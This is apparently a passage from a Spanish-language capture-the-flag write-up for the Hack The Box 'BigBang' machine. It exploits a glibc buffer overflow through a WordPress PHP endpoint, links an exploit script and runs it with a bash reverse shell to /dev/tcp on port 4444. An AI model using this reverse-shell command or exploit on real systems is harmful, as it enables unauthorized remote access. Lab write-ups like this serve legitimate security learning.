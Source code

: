 <pre><code>
  https://xz.aliyun.com/news/14127               
</code></pre>
<p>El artículo analiza una vulnerabilidad de desbordamiento de búfer en glibc, explotable en ciertos entornos PHP para ejecución remota de código. Aunque difícil de aprovechar, el autor explica cómo lo logró en aplicaciones PHP..</p>
<pre><code>
https://www.notion.so/signed/attachment%3Aace055bc-9a36-4fa0-ab84-3cb844b7b788%3Ainitial_exploit.py?table=block&id=18873e8e-2181-805d-b761-f7953d12f977&spaceId=23f8e6c4-d5a3-4565-b3fc-0b07a5534651&userId=8b7c069b-958a-4d18-9ff7-2f470772ff8e&cache=v2
https://www.notion.so/signed/attachment%3A7057fcef-35d2-4395-86f0-7d6a55db976a%3Alibc.so.6?table=block&id=18873e8e-2181-8058-a69f-f3b507dcaa14&spaceId=23f8e6c4-d5a3-4565-b3fc-0b07a5534651&userId=8b7c069b-958a-4d18-9ff7-2f470772ff8e&cache=v2
</code></pre>
<p>Ahora que ya entendimos un poco vamos a realizarlo.</p>
<pre><code>
   python3 rce.py 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' 'bash -c "bash -i >& /dev/tcp/10.10.x.x/4444 0>&1"'         
</code></pre>
<p>vamos a encontrarnos con dos problemas.</p>
<p>Soluciones.</p>
<pre><code>
python3 -m venv myenv
source myenv/bin/activate
pip install ten
</code></pre>

<pre><code>
pw
python3 -m venv pwntools-env
source pwntools-env/bin/activate
pip install pwntools             
</code></pre>
<p>Ahora podemos correrlo.</p>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-28%20160821.png?raw=true" alt="Captura de pantalla">
<p>Waooooooooooooooo, Accedimos.</p>
